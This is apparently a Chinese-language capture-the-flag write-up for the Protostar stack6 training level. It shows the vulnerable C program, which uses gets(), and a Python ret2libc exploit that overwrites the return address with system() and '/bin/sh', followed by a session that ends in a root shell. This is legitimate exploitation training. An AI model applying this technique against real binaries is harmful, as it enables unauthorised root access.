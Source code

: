 It is strongly suggested you experiment with multiple ways of getting your code to execute here.

This level is at `/opt/protostar/bin/stack6`.

### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```



## 攻击目标

让程序执行指定shellcode：`/bin/sh`。



## 攻击过程

```shell
$ cat stack6_binsh.py
import struct

buffer = ""
for i in range(0x41, 0x55):
	buffer += chr(i) * 4
system = struct.pack("I", 0xb7ecffb0) # system()
sys_ret = "AAAA"
binsh = struct.pack("I", 0xb7e97000+1176511) # /bin/sh
padding = buffer + system + sys_ret + binsh
print padding
$ python stack6_binsh.py
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT    AAAA # 后接一段乱码
$ (python stack6_binsh.py; cat) | /opt/protostar/bin/stack6
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT    AAAA # 后接一段乱码
id
uid=0(root) gid=0(root) groups=0(root)
```